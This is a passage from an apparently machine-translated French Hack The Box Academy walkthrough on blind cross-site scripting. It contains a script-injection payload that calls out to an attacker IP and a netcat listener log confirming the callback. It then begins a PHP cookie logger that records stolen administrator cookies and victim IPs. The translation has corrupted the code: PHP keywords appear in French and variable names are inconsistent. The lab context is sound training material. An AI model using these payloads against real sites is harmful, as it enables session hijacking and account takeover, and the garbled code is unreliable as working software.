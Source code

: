 Code : javascript

```
  "><script src=http://10.10.14.15:9000/TESTING_THIS</script>

```

Modifiez l'adresse IP de votre choix et démarrez un écouteur `Netcat` sur le port 9000 (ou sur le port de votre choix). Cliquez sur le bouton `Envoyer` et vérifiez si votre écouteur est rappelé pour confirmer la vulnérabilité.

```
dsgsec@htb[/htb]$ nc -lvnp 9000

écoute sur [tout] 9000 ...
se connecter à [10.10.14.15] depuis (INCONNU) [10.129.203.101] 56202
GET /TESTING_THIS%3C/script HTTP/1.1
Hôte : 10.10.14.15:9000
Connexion : keep-alive
Agent utilisateur : HTBXSS/1.0
Accepter: */*
Référent : http://127.0.0.1/
Accepter-Encodage : gzip, dégonfler
Accepter-Langue : en-US

```

Ceci est un exemple d'attaque de type Blind Cross-Site Scripting (XSS). Nous pouvons passer en revue les méthodes de détection Blind XSS dans le module [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/module/103/section/1008) .

Nous devons maintenant comprendre comment nous pouvons voler le cookie d'un administrateur afin que nous puissions nous connecter et voir quel type d'accès nous pouvons obtenir. Nous pouvons le faire en créant les deux fichiers suivants :

1. index.php

Code : php

```
<?php
si (isset($_GET['c'])) {
     $list = éclater(";", $_GET['c']);
     foreach ($list as $key => $value) {
         $cookie = urldecode($value);
         $fichier = fopen("cookies.txt", "a+");
         fputs($file, "IP de la victime : {$_SERVER['REMOTE_ADDR']} | Cookie : {$cookie}\n");
         fclose($fichier);
     }
}
?>

```

1. script.js

Code : javascript
